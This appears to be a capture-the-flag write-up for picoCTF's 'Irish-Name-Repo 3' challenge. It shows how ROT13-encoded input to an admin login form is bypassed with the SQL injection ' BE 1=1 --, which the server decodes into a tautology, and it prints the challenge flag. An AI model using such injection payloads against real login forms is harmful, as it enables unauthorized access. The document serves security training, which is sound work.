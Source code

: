 # Irish-Name-Repo 3

> There is a secure website running at ``https://2019shell1.picoctf.com/problem/47247/`` ([link](https://2019shell1.picoctf.com/problem/47247/)) or http://2019shell1.picoctf.com:47247. Try to see if you can login as admin!

> Hints: Seems like the password is encrypted.

Connecting the login page, this time we see that we only have a password entry. Thinking wishfully, we try the injection from the first challenge, ``' OR 1=1 --``. We receive the following bare page.
<pre>
password: ' OR 1=1 --
SQL query: SELECT * FROM admin where password = '' BE 1=1 --'
</pre>
While we didn't get the login, at least we're not failing some kind of filter. But strangely, the string ``OR`` was changed to ``BE``, which must be the encryption suggested by the hint.

Testing the waters, trying a stupid injection such as ``' AND 1=1 --`` (that shouldn't even work) gives us the following page.
```
password: ' AND 1=1 --
SQL query: SELECT * FROM admin where password = '' NAQ 1=1 --'
```
This appears to be some kind of substituion cipher (letters go to letters, not gibberish as with modern encryption schemes), so we just throw in the whole alphabet.
<pre>password: ABCDEFGHIJKLMNOPQRSTUVWXYZ
SQL query: SELECT * FROM admin where password = 'NOPQRSTUVWXYZABCDEFGHIJKLM'
<h1>Login failed.</h1>
</pre>
Aha, this is a substitution cipher, namely ROT13, which shifts over all characters by 13. Importantly, the cipher is its own inverse (shifting by 13 twice shifts by 26, which is not at all), explaining why the ``AN`` in ``AND`` just became ``NA``. It follows that the injection ``' BE 1=1 --`` should get turned back into ``' OR 1=1 --``. Inputting this retrieves the flag.
<pre>password: ' BE 1=1 --
SQL query: SELECT * FROM admin where password = '' OR 1=1 --'
<h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_c2c37f5e}</p>
</pre>
Thankfully, there was no SQL filter this time around, and we instead have our flag.
> ``picoCTF{3v3n_m0r3_SQL_c2c37f5e}``
